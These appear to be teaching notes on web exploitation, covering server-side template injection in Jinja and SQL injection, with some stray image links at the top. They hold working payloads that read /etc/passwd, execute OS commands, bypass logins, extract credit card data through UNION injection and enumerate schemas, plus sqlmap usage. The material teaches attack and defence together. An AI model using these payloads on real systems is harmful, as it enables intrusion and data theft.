



;DROP flags --Install please:
While an HTTP request to a site will usually deliver HTML content, this content may not be always static
Think a social media or news site, the information displayed varies though the day
The dynamism can occur client-side by loading an initial HTML and scripts (JS) that make subsequent requests that modify the DOM with the dynamic content
<!DOCTYPE html> <html> <head> <title>View user</title> </head> <body> <p id="output">Loading...</p> <script> fetch("/user") .then((response) => response.json()) .then((data) => { document.getElementById("output").textContent = data.name + " (" + data.email + ")"; }) .catch(() => { document.getElementById("output").textContent = "Failed to load data."; }); </script> </body> </html>
The server would implement the /user endpoint and have it return the appropriate
information.
Instead of the client building the page, the server can build the response HTML using server-side scripts (e.g., PHP, Python, Node).
Instead of having to create the response HTML by doing many string operations, we can specify some skeleton for the response and have values placed into the skeleton when generating the response.
Server-side templates specify that skeleton, some logic and variables that must be passed to render the template.
templates/base.html
<!DOCTYPE html>
<html>
<head>
<title>{{ title }}</title>
</head>
<body>
<header>
<h1>Flask App</h1>
<hr>
</header>
{% block content %}{% endblock %}
</body>
</html>
templates/index.html
{% extends "base.html" %}
{% block content %}
<h2>Fruit List</h2>
<ul>
{% for item in items %}
<li>{{ item }}</li>
{% endfor %}
</ul>
{% endblock %}
app.py
from flask import Flask, render_template app = Flask(__name__) @app.route("/") def home(): items = ["Apples", "Bananas", "Cherries"] return render_template("index.html", title="Home", items=items) if __name__ == "__main__": app.run()
While passing variables to the template render function is usually safe (the programming language and templating engine take care of that), direct string interpolation into template code is usually not.
If we manage to inject code into the template before it’s rendered, we could have that code execute in the server while the template is inflated.
We can notice server side rendering when a page request varies its response and no client side rendering is being done.
We may be asked to fill a form and get some HTML response back with some portion of the form reflected.
We can try testing for some basic injections in the possible vulnerable parameters and see if we manage to execute code or have the server respond 500.
The testing payloads and exploitation routes depend on the templating engine used in the backend.
This varies according to the programming language used and programming languages may have different templating engines availables

A general payload that should 500 many templates engines is:
${{<%[%'"}}%\.
Once identified the templating engine, we should consult the documentation of the template engine and the programming language to find how to exploit it.
Or use resources like HackTricks and PayloadsAllTheThings.
Jinja is a templating engine for Python web frameworks (e.g., Flask, Django).
Expressions are evaluated like {{ exp }}, but we are restricted to what’s present in the Jinja environment.
{{ 7 * 7 }}
Would result in 49.
Read files:
{{ ''.__class__.__mro__[2].__subclasses__() }}
We get a list of classes, locate File.
Assuming it’s 40.
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
Execute commands:
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
We may have to adapt our payloads to work properly in the server instance.
TODO
Web applications store data on databases.
The most common storage are SQL databases.
SQL queries are used by the web application to retrieve data from the DB.
This means that client requests cause SQL statements to be executed, probably with some user controlled arguments used.

While there are many SQL DBMS that vary in some syntax and semantics details, they adhere to a common ISO standard for the Structured Query Language.
There are SQL statements for retrieving, updating, deleting, and inserting data.
There are SQL statements for managing database objects (tables, schemas, users).
A SQL table is a set of tuples (or rows) with common headings (i.e., a position represent some attribute in each tuple).

CREATE TABLE logins ( id INT, username VARCHAR(100), password VARCHAR(100), date_of_joining DATETIME );
A schema is a grouping of SQL tables.
Generally one application will use one schema for its data. Other applications may reuse the DB by specifying their own schema.
SQL statements are executed in the context of a schema on which unqualified tables will be searched (table names can reoccur among schemas).
Nonetheless, schemas can be specified on a per table basis like schema.table.
Note: SQLite does not use schemas, all tables live in the same namespace.
INSERTInsert rows into a table.
INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);
SELECTSelect data from a table.
SELECT column1, column2 FROM table_name;
The column names must be present in the table.
We can query for all columns with *.
SELECT * FROM table_name;
We can also evaluate expressions among columns.
SELECT column1 * column2 FROM table_name;
And even use literals
SELECT 100 + column1 FROM table_name;
We can filter results of SELECT queries.
SELECT * FROM table_name WHERE <expression>;
Possible expressions are:
exp1 < exp2
Also <=, >, and so.
Expressions may be literals (e.g., 'ABC, 2) or column names to refer to the corresponding value in a tuple (the condition is evaluated for each row).
Likewise, each expression may be other expressions to create complex filters.
exp1 = exp2 exp1 != exp2
Test equality and inequality.
exp1 AND exp2
And between two expressions.
exp1 OR exp2
Or between two expressions.
NOT exp
Negates expression result.
Operator precedence is defined in the usual way (e.g., MariaDB).
We can group expressions to force precedence
(exp)
A possible query to check for user credentials could be:
SELECT * FROM user WHERE username = 'tom' AND password = 'toor';
UPDATEUpdate (modify in place) rows in a table.
UPDATE table_name SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;
The possible condition are the same as for the SELECT statements.
Same as in SSTI, there are safe ways of adding user parameters to queries.
Parameterized query:
def login(username, password): conn = sqlite3.connect("users.db") cursor = conn.cursor() cursor.execute( "SELECT * FROM users WHERE username = ? AND password = ?", (username, password) ) result = cursor.fetchone() conn.close() return result
But as in SSTI, raw string interpolation is vulnerable:
def login(username, password): conn = sqlite3.connect("users.db") cursor = conn.cursor() query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'" cursor.execute(query) result = cursor.fetchone() conn.close() return result
A normal user may give values that when interpolated result in the intended query.
Take username = john, password = neogeo.
SELECT * FROM users WHERE username = 'john' AND password = 'neogeo'
But a malicious user could send username = admin' --, password = pwnd.
The query would become:
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'pwnd'
As -- is the line comment sequence for SQL, the rest of the query is ignored
and the query is subverted.
The comment sequence for SQL is -- , it indicates that the rest of the query line should be ignored.
The sequences /* and # work in some RDBMs too.
To inject into a query, we must have an idea of the query structure.
In the previous example: username = '{username}' AND password = '{password}',
our input was surrounded by single quotes, so our payload was admin' -- that
escaped the quotes and then started a comment to ignore the rest of the query
line that would be invalid syntax otherwise.
We would like to get an error (500 probably) and a valid query to know that we have escaped the query structure.
Some payloads to test are ', ", #, ; and ).
Once identified the surrounding context, we may inject the query to accomplish our objectives.
UNIONWe can combine results of multiple SQL queries in one single expression.
SELECT * FROM T1 UNION SELECT * FROM T2;
Both SELECT expressions must return the same number of columns. The column names don’t matter, the names from the first query are used for all.
If we don’t know how many columns are being returned, we can try guessing with literals until we get a successful query.
SELECT * FROM T1 UNION SELECT 1 FROM T2; SELECT * FROM T1 UNION SELECT 1, 2 FROM T2; SELECT * FROM T1 UNION SELECT 1, 2, 3 FROM T2;
The second query would have 1 column, 2 columns, and 3 columns respectively.
UNION injectionTake our previous vulnerable query example:
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
We could have username = AAA' UNION SELECT cc_numbers, cc_cvv FROM credit_cards --, password = pwnd.
The query would become:
SELECT * FROM users WHERE username = 'AAA' UNION SELECT cc_numbers, cc_cvv, 3 FROM credit_cards -- ' AND password = 'pwnd'
And (assuming we have the right number of columns) we would be getting credit card details back with our response.
DBMS support different syntax for concatenating strings.
The two main ones are the function CONCAT() (most RDBMS) and the operator || (PostgreSQL, SQLite).
CONCAT('A', 'B')
'A' || 'B'
Both may result in in 'AB'.
We can use it to concatenate columns.
In the previous example
SELECT * FROM users WHERE username = 'AAA' UNION SELECT cc_numbers || ':' || cc_cvv FROM credit_cards -- ' AND password = 'pwnd'
Would return cc_numbers and cc_cvv in a single column, which could be useful if we wanted to to return more values that columns we have visible in the output.
While the previous syntax worked for concatenating values in the same tuple, we
can also concatenate values across tuples to collapse them into a single row
(subject to GROUP BY).
STRING_AGG(row_expression, separator) -- PostgreSQL, SQLite GROUP_CONCAT(row_expression SEPARATOR separator) -- MySQL
The row_expression to concatenate could be a single column name (e.g., user) or
some other expression (e.g., user || password, CONCAT(user, password)).
SQL databases store information about their schemas (e.g., schema names, table names, columns in table) into the database itself.
This is usually in the special schema information_schema.
Using this and UNION-injections we can enumerate the tables in a database.
information_schema.schemataInformation about all schemas in the server
Columns:
schema_name: Schema nameSELECT schema_name FROM information_schema.schemata;
information_schema.tablesInformation about all tables in the server
Columns:
table_schema: Schema containing the tabletable_name: Table nameSELECT table_name FROM information_schema.tables WHERE table_schema = 'app';
information_schema.columnsInformation about the columns in every table
Columns:
table_schema: Schema containing the tabletable_name: Table namecolumn_name: Column namedata_type: Column data typeSELECT column_name, data_type FROM information_schema.columns WHERE table_schema = 'app' AND table_name = 'users';
After locating interesting tables and columns we can do our usual SQL queries to get their data.
SELECT user, password FROM users;
Passwords are usually stored not as plaintext but as some hash of the corresponding password.
Search instructions for john / hashcat cracking or use https://crackstation.net
More information to be seen in future cryptography session.
sqlite_schemaFor SQLite, we have a single table that contains the information about all tables in the database.
CREATE TABLE sqlite_schema( type text, name text, tbl_name text, rootpage integer, sql text );
From the documentation:
type: ’table’, ’index’, ’view’, or ’trigger’name: name of the objectsql: SQL text that describes the objectsqlite> SELECT * FROM sqlite_schema; table|user|user|2|CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(80) NOT NULL, password_hash VARCHAR(128) NOT NULL, PRIMARY KEY (id), UNIQUE (username) ) index|sqlite_autoindex_user_1|user|3| table|code_snippet|code_snippet|4|CREATE TABLE code_snippet ( id INTEGER NOT NULL, user_id INTEGER NOT NULL, code TEXT NOT NULL, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) )
sqlite> SELECT sql FROM sqlite_schema WHERE name = 'user'; CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(80) NOT NULL, password_hash VARCHAR(128) NOT NULL, PRIMARY KEY (id), UNIQUE (username) )
Sometimes, we won’t be able to view the result of the query directly.
In such cases we are injecting blind and must use other mechanism to get the information back.
If we can get some indicator that a query evaluated to false (returned no results), we do a boolean blind injection and extract one bit of information per query.
If no such indicator exists, we may still be able to evaluate something like
SLEEP(5) conditionally on the query and the query completion time would get us
one bit of information.
As these mechanism are query-intensive (many queries are needed to get complete information), we use automated tools or scripts that do the injections and data collection automatically.
sqlmapAutomatic SQL injection and database takeover tool
Very complete and many options, check the --help, tldr and online examples.
e.g.,
sqlmap -u URL --data=DATA
Tries to inject the given URL with POST data DATA.